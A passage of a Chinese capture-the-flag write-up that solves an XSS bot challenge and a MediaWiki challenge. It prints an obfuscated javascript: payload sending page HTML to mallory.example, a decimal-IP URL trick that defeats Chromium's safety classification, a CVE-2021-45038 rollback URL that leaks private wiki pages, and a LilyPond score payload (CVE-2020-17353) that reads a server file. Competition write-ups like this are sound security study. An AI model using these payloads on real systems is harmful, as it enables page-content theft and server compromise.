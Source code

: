
````javascript
javascript:Function`location\x2ehref\x3d'http://mallory\x2eexample/?'+encodeURI\x28document\x2ebody\x2einnerHTML\x29```//
````

搭建好服务器，用上述网址可以获得 Flag 2。要获得 Flag 1，需要使字符串识别成最安全的「query」，并将网页重定向至以 `GIVE-ME-FLAG-1 #=_= @!+!@ ^~^ %[*.*]%` 为标题的攻击者页面。

进一步分析 Chromium 源代码，寻找识别为「query」的条件。注意到 XSS Bot 通过 `remove_protocols()` 函数，帮我们在检测前移除了 URL 前的 `http://`。可以发现，如果[将 IPv4 地址用十进制数表示](https://chromium.googlesource.com/chromium/src/+/refs/tags/106.0.5249.163/components/omnibox/browser/autocomplete_input.cc#450)，并加入莫名其妙的用户名部分，就能让 URL 变得安全：

```
http://x:@3221226222/?
```

搭建好服务器，用上述网址可以获得 Flag 1。

### 私有笔记

访问 wiki 站点的首页，可见「flag」链接，指向一个隐藏页面。首页提示我们利用 CVE 漏洞，还给出了「版本」页面的链接，通过「版本」页面可见 MediaWiki 的版本是 1.34.4。在 CVE 数据库中搜索[「MediaWiki」「private wiki」相关漏洞](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=mediawiki+private+wiki)，可以找到：

> [CVE-2021-45038](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45038) An issue was discovered in MediaWiki before 1.35.5, 1.36.x before 1.36.3, and 1.37.x before 1.37.1. By using an action=rollback query, attackers can view private wiki contents.

在 [MediaWiki 安全公告](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)中找到该漏洞的利用方式，得知可通过以下链接获取 Flag 页面的内容：

```
https://prob07-deadbeef.geekgame.pku.edu.cn/index.php?action=rollback&from={{:Flag}}
```

页面包含 Flag 1 和登录信息，并提示通过远程代码执行（RCE）来获取 Flag 2：

> You can use the following username and password to login:
>
> - User name: Flag1
> - Password: flag{insecure_01d_mediavviki}
>
> Try RCE to find Flag 2.

「版本」页面显示该站点安装了名为[「Score」](https://www.mediawiki.org/wiki/Extension:Score)的可疑的扩展程序，描述称「添加一个标记来以 LilyPond 呈现乐谱」。在 CVE 数据库中搜索相关漏洞，可以找到：

> [CVE-2020-17353](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-17353) scm/define-stencil-commands.scm in LilyPond through 2.20.0, and 2.21.x through 2.21.4, when -dsafe is used, lacks restrictions on embedded-ps and embedded-svg, as demonstrated by including dangerous PostScript code.

在 [Wikimedia Phabricator](https://phabricator.wikimedia.org/T257062) 中找到该漏洞的利用方式，得知可通过以下 Wiki Markup 代码来实现远程代码执行：

```
<score>\new Staff <<{c^#

(object->string (call-with-input-file "/flag2" read))

}>></score>
```
